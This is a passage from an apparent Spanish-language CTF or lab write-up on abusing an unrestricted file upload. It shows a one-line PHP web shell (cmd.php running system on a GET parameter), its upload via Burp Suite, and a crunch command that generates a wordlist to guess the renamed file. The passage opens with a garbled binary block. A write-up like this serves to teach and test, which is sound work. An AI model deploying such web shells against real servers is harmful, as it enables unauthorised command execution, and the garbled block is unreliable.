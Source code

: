 ```bash
c  gÔMJN¹*jFjXÈá'Pm¤èO@	PPÕ jÒ2£¢É4Àk)4QÄµÕd°³gRA"d&Â)TãQ%i
```

Revisamos la respuesta del servidor **Response** con el formato **PNG** no tuvimos problemas al subirlo
```bash
HTTP/1.1 200 OK
Date: Fri, 04 Jul 2025 21:27:00 GMT
Server: Apache/2.4.58 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 86
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

El archivo terminal1.png ha sido subido y alterado xxx_tuarchivo , localizalo y actua.
```

Ahora para abusar de esto crearemos un archivo **php** malicioso y una ves logremos subirlo tendremos que encontralo bajo este patro: **xxx_tuarchivo**
**cmd.php**
```php
<?php
    system($_GET["cmd"]);
?>
```

Ahora intentamos subir el archivo interceptando la peticion con **burpsuite** para ir probando ataque de extensiones en caso de que no permita archivo php
No fue necesario el ataque de extensiones ni nada complicado ya que acepta archivos **php**
```bash
El archivo cmd.php ha sido subido y alterado xxx_tuarchivo , localizalo y actua.
```

Ahora tendremos que usar la siguiente herramienta:
#### **¿QUÉ ES CRUNCH?**
Herramienta offline para generar **listas de palabras personalizadas** basadas en:
- Longitud exacta o rangos (ej: 8-12 caracteres)
- Patrones definidos (ej: "2024@**^^")
- Charsets predefinidos o personalizados
#### **USOS EN SEGURIDAD OFENSIVA**:
1. **Fuerza bruta** a contraseñas/hashes
2. **Ataques a WiFi** (WPA/WPA2 con aircrack-ng)
3. **Fuzzing de directorios/web** (ej: combinaciones para URLs)
4. **Ingeniería social dirigida** (crear diccionarios con datos del target)

Ahora usaremos este comando:
```bash
crunch 11 11 -t "@@@_cmd.php" -o wordlist.txt
```
#### Explicación:
- `11 11`: Longitud fija de 11 caracteres
- `-t "@@@_cmd.php"`:
    - `@@@` = 3 letras minúsculas variables
    - `_cmd.php` = texto fijo
- `-o wordlist.txt`: Guarda en archivo
